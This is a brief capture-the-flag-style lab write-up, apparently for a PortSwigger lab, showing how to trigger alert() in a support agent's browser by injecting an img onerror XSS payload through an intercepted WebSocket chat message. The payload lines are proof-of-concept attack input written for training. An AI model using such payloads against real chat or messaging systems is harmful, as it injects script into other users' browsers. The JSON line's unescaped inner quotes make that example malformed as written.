 # Manipulating WebSocket messages to exploit vulnerabilities

## This online shop has a live chat feature implemented using [WebSockets](https://portswigger.net/web-security/websockets).

## Chat messages that you submit are viewed by a support agent in real time.

## To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser.

---

### step 1

open lab go to live chat start chat intercept chat sent to repeater

```html
<img src="1" onerror="alert(1)" />
```

put like this

```html
{"message":"<img src="1" onerror="alert(1)" />"}
```
